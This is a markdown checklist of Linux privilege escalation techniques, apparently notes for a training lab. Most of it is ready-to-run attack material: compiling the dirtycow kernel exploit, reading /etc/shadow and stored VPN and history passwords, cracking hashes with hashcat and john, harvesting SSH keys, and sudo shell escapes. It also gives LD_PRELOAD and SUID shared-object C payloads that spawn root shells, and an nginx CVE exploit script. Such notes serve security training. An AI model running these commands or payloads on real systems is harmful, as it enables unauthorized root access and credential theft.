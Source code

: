 # Linux privesc

- [ ] **Privilege Escalation - Kernel Exploits**
- Download `linux-exploit-suggester.sh` script: `/linux-exploit-suggester/linux-exploit-suggester.sh`
- Compile and run `dirtycow` exploit:
```bash
gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
./c0w
```
- Change password: `passwd`
- Check user privileges: `id`

- [ ] **Privilege Escalation - Stored Passwords (Config Files)**
- View VPN configuration: `cat /home/user/myvpn.ovpn`
- Note the "auth-user-pass" directive value in the config.
- View OpenVPN auth file: `cat /etc/openvpn/auth.txt`
- Search for passwords in Irssi config: `cat /home/user/.irssi/config | grep -i passw`

- [ ] **Privilege Escalation - Stored Passwords (History)**
- Search for passwords in bash history: `cat ~/.bash_history | grep -i passw`

- [ ] **Privilege Escalation - Weak File Permissions**
- List shadow file permissions: `ls -la /etc/shadow`
- View `/etc/passwd` file: `cat /etc/passwd`
- View `/etc/shadow` file: `cat /etc/shadow`
- Unshadow password file:
```bash
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
```
- Use hashcat to crack passwords:
```bash
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

- [ ] **Privilege Escalation - SSH Keys**
- Search for authorized_keys and id_rsa files:
```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```
- Set appropriate permissions on id_rsa: `chmod 600 id_rsa`
- Connect using SSH key: `ssh -i id_rsa root@<ip>`

- [ ] **Privilege Escalation - Sudo (Shell Escaping)**
- List sudo permissions: `sudo -l`
- Perform one of the shell escaping techniques:
- Execute nano with a shell:
  ```
  sudo find /bin -name nano -exec /bin/sh \;
  ```
- Use `awk` to spawn a shell:
  ```
  sudo awk 'BEGIN {system("/bin/sh")}'
  ```
- Create an Nmap script for shell execution:
  ```
  echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
  ```
- Execute a shell through sudo vim:
  ```
  sudo vim -c '!sh'
  ```

**Privilege Escalation - Sudo (Abusing Intended Functionality)**
- List sudo permissions: `sudo -l`
- Exploit a program that doesn't exist in ctfobins:
sudo apache2 -f /etc/shadow
- Provide the pasted root hash and crack it with John the Ripper:
echo '[Pasted Root Hash]' > hash.txt
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt

**Privilege Escalation - Sudo (LD_PRELOAD)**
- List sudo permissions: `sudo -l`
- Create a shared object for privilege escalation:
1. Open a text editor and type x.c:
  ```
  #include <stdio.h>
  #include <sys/types.h>
  #include <stdlib.h>
  void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
  }
  ```
- Compile and load the shared object:
  ```
  gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
  sudo LD_PRELOAD=/tmp/x.so apache2
  ```

**Privilege Escalation - SUID (Shared Object Injection)**
- Find SUID binaries: `find / -type f -perm -04000 -ls 2>/dev/null`
- Trace the `suid-so` binary to locate missing .so file:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
- Create a shared object for privilege escalation:
mkdir /home/user/.config
cd /home/user/.config
- Create and compile a shared object (libcalc.c):
  ```c
  #include <stdio.h>
  #include <stdlib.h>
  static void inject() __attribute__((constructor));
  void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
  }
  ```
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c

- Run the SUID binary to escalate privileges:
  ```
  /usr/local/bin/suid-so
  ```

**Privilege Escalation - SUID (Symlinks)**
- Identify installed nginx version: `dpkg -l | grep nginx`
- Exploit a known vulnerability (CVE-2016-1247):
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log

- Restart the system to trigger the exploit: `invoke-rc.d nginx rotate >/dev/null 2>&1`
